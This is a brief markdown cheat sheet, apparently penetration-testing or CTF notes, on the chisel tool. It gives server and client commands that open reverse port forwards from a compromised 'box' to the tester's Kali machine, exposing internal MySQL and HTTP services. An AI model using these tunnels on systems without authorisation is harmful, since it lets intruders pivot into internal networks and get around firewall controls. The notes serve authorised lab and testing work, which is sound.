 # chisel

get the binary from https://github.com/jpillora/chisel


**on my pc** : 

```bash
chisel server -p 80 --reverse
```
```bash
netstat -nltup
```

**on the box fomat** :

```sh
./chisel client {you kali ip}:{port on which you start chisel} R:{port of kali you want to access the service of box }:127.0.0.1:{box port you want to bring out}
```
**eg**
```
./chisel client 192.168.1.7:80 R:5000:127.0.0.1:5000 
```
> mysql
```sh
client 192.168.56.1:80 R:3306:127.0.0.1:3306               
```
> http
```sh
./chisel-amd64 client 10.10.14.5:80 R:8085:192.168.122.4:80 			
```
